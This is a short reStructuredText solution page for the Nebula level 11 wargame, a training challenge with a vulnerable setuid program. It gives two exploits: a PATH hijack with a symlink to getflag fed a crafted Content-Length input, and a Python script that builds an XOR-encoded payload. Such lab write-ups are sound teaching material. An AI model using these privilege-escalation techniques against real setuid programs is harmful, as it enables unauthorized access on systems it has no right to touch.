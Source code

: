 .. _nebula11:

.. role:: bash(code)
	  :language: bash

.. role:: python(code)
	  :language: python

Nebula 11
=========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level11/

Important Note
----
   
This level has two posible ways to be exploited but, it have a bug on the sticky bit, this bug can be seen by strace

**Reported bug:** https://security.stackexchange.com/questions/137204/nebula-level11-setuid-is-not-working

Solution
--------
* First way:

.. code-block:: bash
		export PATH=/tmp/:$PATH
		ln -s /bin/getflag d
		echo -ne "Content-Length: 1\nd" | /home/flag11/flag11
.. note::
   Execute it until an "e" comes up, if this letter shows then you can execute

* Second way:

.. code-block:: python
		string = "/bin/getflag\x00"
		key = 0

		enc_string = ""

		for char in string:
		    enc_char = ord(char) ^ key & 0xff
		    enc_string += chr(enc_char)
		    key = key - ord(char) & 0xff

		print "Content-Length: 1024\n" + enc_string + "\x00" * (1024 - len(enc_string))
